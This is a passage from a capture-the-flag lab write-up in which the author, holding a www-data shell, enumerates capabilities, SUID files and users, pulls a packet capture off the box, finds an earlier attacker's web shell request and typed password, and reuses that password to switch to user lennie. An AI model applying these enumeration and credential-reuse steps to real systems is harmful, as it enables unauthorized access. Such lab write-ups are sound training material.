 Checking `getcap -r / 2>/dev/null` shows no interesting capabilities.

Other users on the system:

```
root:x:0:0:root:/root:/bin/bash
vagrant:x:1000:1000:,,,:/home/vagrant:/bin/bash
lennie:x:1002:1002::/home/lennie:
ftpsecure:x:1003:1003::/home/ftpsecure:
```

Of those users lennie is the only one with a directory in /home.

I check for SUID files with `find / -perm /4000 2>/dev/null` and don't see anything out of the ordinary.

I check out the web directory at /var/www/html and don't see anything we didn't already see.

Looking around the file system more I find the /incidents directory and inside it is a pcapng file.

I start up a simple python http server and download it to my home system so I can open it up with Wireshark:

```
www-data@startup:/incidents$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 ...
10.6.0.242 - - [22/Oct/2022 16:16:05] "GET /suspicious.pcapng HTTP/1.1" 200 -
```

Opening the file up in Wireshark and looking through the TCP streams we see somebody:

```
GET /files/ftp/shell.php HTTP/1.1
```

Definitely suspicious. On stream 7 we see commands being entered in the shell:

```
www-data@startup:/home$ cd lennie
cd lennie
bash: cd: lennie: Permission denied
www-data@startup:/home$ sudo -l
sudo -l
[sudo] password for www-data: <REDACTED>
```

So the user tried to sudo -l and enter a password, but they're also trying to change over to the lennie directory. Maybe this is the password for the user lennie? I try and switch user over to him:

```
www-data@startup:/incidents$ su lennie
Password: 
lennie@startup:/incidents$ whoami
lennie
```

Alright we've moved over to another user, let's see what we can find with them.

In their home direcotry we find the user.txt flag:

`wc -c /home/lennie/user.txt`
